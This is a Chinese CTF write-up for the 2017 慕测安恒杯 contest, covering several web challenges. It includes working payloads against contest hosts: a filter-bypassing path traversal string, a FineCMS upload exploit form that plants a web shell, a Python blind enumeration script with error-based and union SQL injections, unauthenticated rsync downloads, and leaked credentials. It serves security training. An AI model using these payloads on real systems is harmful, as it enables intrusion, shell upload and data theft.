 ```yaml
---
title: 2017 慕测安恒杯部分题 WriteUp
tags:
  - CTF
  - WriteUp
  - 文件包含
  - 编辑器泄露
date: 2017-10-12 20:20:13
---
```


6月18日的线上赛，今天才补上wp，9月22日更新babysql，10月12日更新findpwd、服务发现
<!-- more -->

## 根据ip查dns解析记录

题目原意是让我们用cmd的nslookup命令，我直接上dns反查网站查的

到这个网站查dns解析[https://www.boip.net/ipv4/](https://www.boip.net/ipv4/)

flag为`this-is-flag`

## 编辑器泄露

题目提示编辑器泄露,fuzz后下载到了`login.php.swp`，用`vim -r login.php.swp`恢复得到源码，看到明文账号密码，
```php
if ($userin=="admin94wo")
if($passin=="ca1buda0mima7ah4ha")
```
用账号密码登录login.php得到flag，`flag{b4ckup_1s_normal}`

## babywaf

fuzz后发现 &lt; 被过滤了，构造post file=.&lt;./.&lt;./.&lt;./.&lt;./.&lt;./flag 提交得到flag，`flag{To0_young_2_simple!}`

## 综合渗透

题目提示让我们复现exp，该站用的是`finecms`

百度得到此cms的一个上传漏洞，构造html文件如下，上传一个`phtml`后缀的一句话上去，菜刀连接在`/flag`得到flag，`flag{o1d_bug_t0_send_point!}`

```html
<!DOCTYPE html>
<html>
    <head>
    <meta charset=”utf-8″>
    <title>Finecms ajaxswfupload exp</title>
    </head>
    <body>
        <form action=”http://114.55.88.132:20580/index.php?c=attachment&a=ajaxswfupload” method=”POST” enctype=”multipart/form-data”>
            <input type=”file” name=”Filedata”>
            <input type=”hidden” name=”type” value=”phtml”>
            <input type=”hidden” name=”size” value=”100″>
            <input type=”submit” name=”submit” value=”上传文件”>
        </form>
    </body>
</html>
```

## babysql

这道题到最后也没做出来，报错注入注，过滤了`union`和`column_name`还有`*`，不知道字段名是啥

参考了[http://www.wupco.cn/?p=3764](http://www.wupco.cn/?p=3764)  
从该文章中可以得知这道注入题的核心代码如下
```php
$sql = "desc `error_{$table}`";
$res = mysql_query($sql);
if(empty(mysql_fetch_array($res))){
    echo "<center>no table detail</center>";
    die();
}

$sql = "select * from error_${table} where id = $id";
```
可以看出通过`desc`语句判断table是否存在，再执行下一个sql语句  
DESC的语法如下  
```
DESC tbl_name [col_name | wild]
```
构造payload如下  
```
http://114.55.36.69:20680/index.php?table=flag` `a%&id=3
```
python脚本如下
```python
#!/usr/bin/env
# -*- coding: utf-8 -*-
import requests as r
r1=r.session()
s="abcdefghijklmnopqrstuvwxyz1234567890_"
flag=""
for i in range(50):
  url="http://114.55.36.69:20680/index.php?table=flag` `{0}%&id=3"
  for j in s:
    url2=url.format(str(flag+j))
    r2=r1.get(url2)
    if "SQL" in r2.text:
      flag+=j
      print flag
      break
```
得到`error_flag`表的字段名为`flag_you_will_never_know`  
再使用报错注入查询即可拿到flag  
```
http://114.55.36.69:20680/index.php?table=news&id=3 -updatexml(1,concat('a=.',(select flag_you_will_never_know from error_flag)),1)#
```

## 服务发现
nmap扫描后发现`rsync`开放
rsync空口令
```bash
[root@test ~]# rsync 118.178.18.181::
source code   
[root@test ~]# rsync 118.178.18.181::source\ code/
drwxr-xr-x        4096 2017/06/14 13:01:20 .
-rw-r--r--          44 2017/06/14 13:01:20 flag.php
-rw-r--r--          26 2017/06/14 13:01:20 index.php
[root@test ~]# rsync -azv 118.178.18.181::source\ code/flag.php ~/flag.txt
receiving incremental file list

sent 19 bytes  received 41 bytes  120.00 bytes/sec
total size is 44  speedup is 0.73
[root@test ~]# cat flag.txt
<?php
$flag = "flag{rsync_i5_very_useful!}";
```

## findpwd
题目提示了开发者用的ide是netbean，查看ide工作空间的文件
```
http://118.178.18.181:20880/nbproject/private/private.xml
```

```xml
<project-private xmlns="http://www.netbeans.org/ns/project-private/1">
<editor-bookmarks xmlns="http://www.netbeans.org/ns/editor-bookmarks/2" lastBookmarkId="0"/>
<open-files xmlns="http://www.netbeans.org/ns/projectui-open-files/2">
<group>
<file>file:/var/www/html/fuckbean/index.php</file>
<file>
file:/var/www/html/fuckbean/f1ndmyp4ssw0rdnineverno.php
</file>
<file>file:/var/www/html/fuckbean/1.sql</file>
</group>
</open-files>
</project-private>
```
可以看到`1.sql`和`f1ndmyp4ssw0rdnineverno.php`两个文件
f1ndmyp4ssw0rdnineverno.php是个输入邮箱找回密码的页面
下载`1.sql`，这里就可以猜测可能是注入
```sql
drop database if exists fuckbean;
create database fuckbean;
use fuckbean;
create table users(
id int(5),
username varchar(20),
password varchar(32),
mail    varchar(50)
);
insert into users values(1,"admin","aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","admin@admin.com");
grant all privileges on fuckbean.* to fuckbean@localhost identified by 'fuckbean';
```
构造
```
a'union select 1,2,3,0xxxxxxx-- a@qq.com
```
其中`0xxxxxxx`是你自己的邮箱的hex，提交后收到flag邮件
